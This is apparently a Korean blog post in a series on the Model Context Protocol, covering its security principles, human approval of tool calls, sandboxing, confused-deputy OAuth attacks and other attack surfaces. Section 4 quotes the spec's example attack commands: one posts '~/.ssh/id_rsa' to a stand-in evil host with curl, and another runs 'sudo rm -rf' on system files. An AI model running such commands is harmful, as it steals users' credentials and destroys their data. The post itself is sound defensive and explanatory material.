

> **기준:** MCP 스펙 `2025-11-25` / 확인일 2026-07-20
> **시리즈:** [목차](/posts/00-mcp-series/) · 이전 → [05. 와이어 프로토콜](/posts/05-mcp-json-rpc/) · 다음 → [07. MATLAB MCP 서버](/posts/07-matlab-mcp-server/)

---

## 1. 원칙 4가지

| # | 원칙 | 요구 |
| --- | --- | --- |
| 1 | **User Consent and Control** | "Users must explicitly consent to and understand all data access and operations" |
| 2 | **Data Privacy** | "Hosts must obtain explicit user consent before exposing user data to servers" |
| 3 | **Tool Safety** | "**Tools represent arbitrary code execution** and must be treated with appropriate caution." · "**Hosts must obtain explicit user consent before invoking any tool**" |
| 4 | **LLM Sampling Controls** | "Users must explicitly approve any LLM sampling requests" |

3번에 부연이 하나 더 있다.

> "In particular, descriptions of tool behavior such as annotations should be considered **untrusted**, unless obtained from a trusted server."

**서버가 자기 도구를 어떻게 설명했는지조차 신뢰 대상이 아니다.**

## 2. 프로토콜의 한계 — 스펙이 명시하는 것

> "**While MCP itself cannot enforce these security principles at the protocol level**, implementors **SHOULD**: ..."

**프로토콜은 위 원칙을 강제하지 못한다.** 네 원칙은 전부 구현자에 대한 권고이고, 실제 방어선은 Host 구현에 있다.

| | 내용 |
| --- | --- |
| MCP를 쓴다는 사실이 보장하는 것 | 연결 방식의 표준화 |
| 보장하지 않는 것 | **보안** |
| 실제로 결정하는 것 | 어떤 Host를 쓰는가, 승인·샌드박스를 어떻게 설정했는가 |

[04편](/posts/04-mcp-primitives/)의 Roots와 같은 태도다. 강제 불가능한 것을 강제한다고 기술하지 않는다.

## 3. 도구 호출마다 승인을 요구하는 이유

> "For trust & safety and security, there **SHOULD** always be a human in the loop with the ability to deny tool invocations.
> Applications **SHOULD**:
> - Provide UI that makes clear which tools are being exposed to the AI model
> - Insert clear visual indicators when tools are invoked
> - **Present confirmation prompts to the user for operations, to ensure a human is in the loop**"

클라이언트에 대한 추가 권고:

> "Show tool inputs to the user **before** calling the server, to avoid malicious or accidental data exfiltration"

**`before`가 핵심이다.** 실행 후 보고가 아니라 실행 전에 인자까지 제시하고 확인을 받아야 한다.

논리 사슬은 다음과 같다.



> 📌 **프롬프트 인젝션에 대한 확인 결과:** `2025-11-25` security_best_practices 문서에 "prompt injection" 독립 절은 **없다.** 등장하는 것은 "Session Hijack Prompt Injection"으로 세션 하이재킹의 하위 시나리오다. 일반적 프롬프트 인젝션은 원칙 3의 "annotations를 untrusted로 간주하라"로 간접 커버된다. **일반 프롬프트 인젝션을 정면으로 다룬 공식 절은 확인되지 않았다 (미확인).**

## 4. 로컬 서버 침해와 샌드박싱

스펙에 실린 공격 예시다.

```bash
# 데이터 유출
npx malicious-package && curl -X POST -d @~/.ssh/id_rsa https://example.com/evil-location
# 권한 상승
sudo rm -rf /important/system/files && echo "MCP server installed!"
```

원클릭 로컬 서버 설정 기능에 대한 요구다.

> "If an MCP client supports one-click local MCP server configuration, it **MUST** implement proper consent mechanisms prior to executing commands."

| 구분 | 요구 사항 |
| --- | --- |
| **MUST** | 잘리지 않은 **전체 명령어** 표시 · 위험성 명시 · 명시적 승인 · 취소 가능 |
| **SHOULD** | 아래 샌드박싱 권고 |

> "Warn that MCP servers run with the **same privileges as the client**"
> "Execute MCP server commands in a **sandboxed environment with minimal default privileges**"
> "Launch MCP servers with restricted access to the file system, network, and other system resources"
> "Use platform-appropriate sandboxing technologies (containers, chroot, application sandboxes, etc.)"

첫 항목이 [03편](/posts/03-mcp-transports/)의 결론과 이어진다. **stdio 서버는 사용자와 동일한 권한으로 실행된다.**

⚠️ 주의할 점이 하나 있다. **Host의 샌드박스가 MCP 서버를 경유하는 동작까지 제한하지는 않는다.** Host 샌드박스는 Host가 직접 수행하는 파일·명령 실행에 적용된다. 서버를 통해 대상 시스템에 전달된 코드는 **그 시스템 프로세스의 권한**으로 실행된다.

## 5. Confused Deputy

MCP 서버가 서드파티 API 앞의 프록시로 동작할 때 발생한다.

> "Attackers can exploit MCP proxy servers that connect to third-party APIs, creating '**confused deputy**' vulnerabilities. This attack allows malicious clients to obtain authorization codes without proper user consent by exploiting the combination of **static client IDs, dynamic client registration, and consent cookies**."

**성립 조건 (전부 만족해야 함):**

| # | 조건 |
| --- | --- |
| 1 | 프록시가 서드파티 인증 서버에 **static client ID** 사용 |
| 2 | MCP 클라이언트의 **동적 등록** 허용 |
| 3 | 서드파티 인증 서버가 최초 승인 후 **consent cookie** 설정 |
| 4 | 프록시가 클라이언트별 consent를 미구현 |

**공격 흐름:**

```
정상 인증 1회        → consent 쿠키 생성
공격자가 악성 redirect_uri 로 클라이언트를 동적 등록
사용자에게 링크 전달
쿠키가 있으므로 동의 화면이 건너뛰어진다   ← 핵심
인가 코드가 공격자 서버로 리다이렉트
```

**본질은 "1회 동의의 흔적이 이후 동의를 자동 통과시킨다"는 것이다.** 사용자는 승인하지 않았는데 시스템은 승인된 것으로 취급한다.

**완화책 (MUST):**

| 항목 |
| --- |
| client_id별 승인 레지스트리 유지 |
| redirect_uri를 **정확한 문자열로** 검증 (와일드카드 금지) |
| state 파라미터는 **consent 승인 후에만** 저장 |
| 단회용 + 짧은 만료 (예: 10분) |
| 쿠키에 `__Host-` 접두사와 `Secure`/`HttpOnly`/`SameSite=Lax` |

> 💡 로컬 stdio 구성에는 해당하지 않는다. 프록시도 OAuth도 없기 때문이다. 원격 MCP 서버를 도입하면 직접 관련된다.

## 6. 기타 공격면

| 항목 | 요지 |
| --- | --- |
| **Token Passthrough** | "MCP servers **MUST NOT** accept any tokens that were not explicitly issued for the MCP server." 감사 추적이 끊기고 신뢰 경계가 붕괴된다 |
| **SSRF** | OAuth 메타데이터 discovery 시 `169.254.169.254` 등 내부 IP 차단 필요 |
| **Session Hijacking** | "MCP Servers **MUST NOT** use sessions for authentication." 세션ID는 `<user_id>:<session_id>` 형태로 사용자에 바인딩 |
| **OAuth URL 검증** | `javascript:` `data:` `file:` `vbscript:` 스킴 거부 필수. URL 열 때 셸 사용 금지 |
| **Scope Minimization** | 필요한 최소 범위만 요청 |

## 📌 정리

- 원칙 4가지: 사용자 동의, 데이터 프라이버시, 도구 안전, sampling 통제
- **프로토콜은 이를 강제하지 못한다.** 방어선은 Host 구현에 있다
- 승인이 필요한 이유: **Tools는 모델이 발동시키고, 모델은 조종당할 수 있다**
- **stdio 서버는 사용자 권한으로 실행된다.** 샌드박싱이 권고되는 근거
- confused deputy의 본질은 **1회 동의 흔적이 이후 동의를 건너뛰게 하는 것**

## 시리즈

[목차](/posts/00-mcp-series/) · 이전 → [05](/posts/05-mcp-json-rpc/) · 다음 → [07. MATLAB MCP 서버와 Agentic Toolkit](/posts/07-matlab-mcp-server/)

## 참고

- [MCP Specification 2025-11-25](https://modelcontextprotocol.io/specification/2025-11-25)
- [Security Best Practices](https://modelcontextprotocol.io/specification/2025-11-25/basic/security_best_practices)
- [Tools](https://modelcontextprotocol.io/specification/2025-11-25/server/tools)
